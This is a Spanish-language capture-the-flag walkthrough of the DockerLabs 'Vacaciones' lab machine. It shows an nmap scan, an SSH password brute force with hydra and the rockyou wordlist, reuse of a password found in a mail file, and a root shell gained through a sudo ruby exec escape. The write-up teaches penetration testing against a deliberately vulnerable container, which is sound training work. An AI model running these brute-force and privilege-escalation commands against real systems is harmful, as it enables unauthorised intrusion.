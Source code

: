 ```yaml
---
title: Vacaciones - DockerLabs
categories: [ Linux ]
tags: [DockerLabs]
---
```


<img src="/assets/img/DLabs/vacaciones/vacaciones.png" alt="Captura de pantalla de la máquina Vacaciones en DockerLabs">

Hoy trataremos de explotar la máquina *Vacaciones* de [DockerLabs](https://dockerlabs.es/), de dificultad Muy Fácil. Vamos a visualizar el codigo fuente de la web y despues realizaremos ataques de fuerza bruta con **hydra**.

## Desplegamos la máquina

```bash
➤ sudo bash auto_deploy.sh injection.tar
[sudo] contraseña para nmc:     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla

```

## Escaneo NMAP

Antes que nada, deberemos hacer un escaneo de puertos con **nmap** para encontrar los puertos abiertos y qué servicios corren en ellos.

```bash
nmc@mate ~/D/D/vacaciones [16:36]
➤ nmap -sV -p- --min-rate=5000 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-06-27 16:36 CST
Nmap scan report for 172.17.0.2
Host is up (0.00012s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.57 seconds
```



Nos percatamos de que está abierto el puerto <mark>80</mark> con el servicio HTTP. Entramos a la web con el puerto 80: <mark>http://172.17.0.2:80</mark> y nos carga una pagina en blanco, pero inspeccionamos su codigo fuente y encontramos un comentario.

<img src="/assets/img/DLabs/vacaciones/view-vacaciones.png" alt="Captura de pantalla de la máquina Vacaciones en DockerLabs">

## Hydra

Utilizamos **hydra** con los usuarios **Camilo** y **Juan** al **ssh**:

```bash
➤ hydra -l camilo -P /usr/share/wordlists/rockyou.txt -t 50 ssh://172.17.0.2
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

[DATA] max 50 tasks per 1 server, overall 50 tasks, 14344398 login tries (l:1/p:14344398), ~286888 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: camilo   password: password1
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-06-27 16:47:12
```



Iniciamos sesion con las credenciales de **Camilo**:

```bash
➤ ssh camilo@172.17.0.2
camilo@172.17.0.2's password: 
$
```



## Escalada de privilegios

Revisamos el *correo* que nos indicaba en la web

```bash
$ cd /var/mail
$ cd camilo
$ cat correo.txt
Hola Camilo,

Me voy de vacaciones y no he terminado el trabajo que me dio el jefe. Por si acaso lo pide, aquí tienes la contraseña: 2k84dicb
```



Iniciamos sesion en con el usuario **Juan**:

```bash
➤ ssh juan@172.17.0.2
juan@172.17.0.2's password: 
$
```



Hacemos un **sudo -l**:

```bash
$ sudo -l
Matching Defaults entries for juan on 05af69235c0b:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User juan may run the following commands on 05af69235c0b:
    (ALL) NOPASSWD: /usr/bin/ruby 
```



Podemos ejecutar **ruby** como el usuario **root**:

```bash
$ sudo /usr/bin/ruby -e 'exec "/bin/bash"'
root@05af69235c0b:~#
```



```bash
root@05af69235c0b:~# whoami
root
root@05af69235c0b:~#
```



## Acceso ROOT obtenido

¡Máquina comprometida! Te deseo un feliz hackeo.
